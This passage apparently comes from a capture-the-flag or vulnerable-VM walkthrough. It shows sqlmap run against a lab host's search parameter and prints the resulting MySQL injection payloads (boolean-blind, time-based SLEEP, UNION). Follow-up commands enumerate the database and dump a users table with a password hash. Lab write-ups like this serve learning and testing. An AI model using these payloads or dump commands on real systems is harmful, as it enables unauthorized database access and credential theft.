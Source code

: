 Let us launch [sqlmap](http://sqlmap.org):


    [maggick@rootine sqlmap]$ python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plop'
             _
     ___ ___| |_____ ___ ___  {1.0-dev-e8f87bf}
    |_ -| . | |     | .'| . |
    |___|_  |_|_|_|_|__,|  _|
          |_|           |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting at 15:25:23

    [15:25:23] [INFO] resuming back-end DBMS 'mysql' 
    [15:25:23] [INFO] testing connection to the target URL
    sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
    ---
    Parameter: usrtosearch (GET)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
        Payload: usrtosearch=-8936" OR 8832=8832#

        Type: AND/OR time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (SELECT - comment)
        Payload: usrtosearch=plop" AND (SELECT * FROM (SELECT(SLEEP(5)))bhRc)#

        Type: UNION query
        Title: MySQL UNION query (NULL) - 3 columns
        Payload: usrtosearch=plop" UNION ALL SELECT CONCAT(0x71706b7871,0x5355686d62645446514a,0x7162716271),NULL,NULL#
    ---
    [15:25:23] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian
    web application technology: Apache 2.4.10
    back-end DBMS: MySQL 5.0.12
    [15:25:23] [INFO] fetched data logged to text files under '/home/maggick/.sqlmap/output/192.168.0.20'

    [*] shutting down at 15:25:23

`python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plo' --current-db`
got us the name of the current databse: **seth**.

`python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plo' -D seth --tables`
got us the list of the tables in the database **seth**. There is only one table : **users**. Let us drop it:

    :::text
    $python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plop' -D seth --dump
    +----+---------------------------------------------+--------+------------+
    | id | pass                                        | user   | position   |
    +----+---------------------------------------------+--------+------------+
    | 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
    | 2  | --not allowed--                             | isis   | employee   |
    +----+---------------------------------------------+--------+------------+
